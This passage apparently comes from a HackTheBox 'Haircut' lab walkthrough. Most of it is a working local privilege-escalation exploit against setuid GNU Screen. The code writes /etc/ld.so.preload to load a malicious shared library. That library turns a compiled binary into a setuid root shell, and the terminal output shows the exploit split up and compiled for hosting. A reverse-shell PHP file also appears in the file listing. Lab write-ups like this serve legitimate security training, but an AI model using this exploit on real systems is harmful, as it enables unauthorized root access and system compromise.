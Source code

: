 ```bash
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

It seems like the exploit code is trying to do 3 different things. We will have to split this script into 3 parts and compile it before hosting it on a local webserver.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# cat libhax.c              
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# gcc -fPIC -shared -ldl -o libhax.so libhax.c                               
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# ls
libhax.c  libhax.so  revshell.php

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# cat rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# gcc -o rootshell rootshell.c                
                                          
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# ls
```